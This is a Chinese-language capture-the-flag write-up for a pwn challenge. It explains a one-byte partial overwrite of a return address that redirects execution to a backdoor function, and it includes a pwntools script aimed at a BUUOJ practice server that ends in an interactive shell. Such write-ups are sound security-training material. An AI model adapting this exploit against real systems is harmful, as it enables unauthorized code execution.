 # W1 p1eee

## 文件分析

下载`pwn`, NX on, PIE on, Canary off, RELRO full  
ghidra分析为64位程序

## 解题思路

该程序存在后门函数，因此尝试重定向回该函数  
但是只能溢出一个字节

已知在小端计算机上数据存储应是：  
假如main函数地址为0x55555555127b，那么地址从小到大存储为  
7b 12 55 55 55 55 00 00  
那么这一个字节可以覆盖7b

反汇编后可知，后门函数地址和read函数所在函数返回地址第一个字节一致，
因此只需要变化此字节即可

## EXPLOIT

```python
from pwn import *
sh = remote("node4.buuoj.cn", 27047)
sh.sendline(b'0'*40 + p8(0x6c)) # addr of backdoor
sh.interactive()
```

后门函数所在地址第一字节是0x64，但是若直接使用，会导致rbp & 0xf != 0，
所以跳转到LEA处即可

Done.
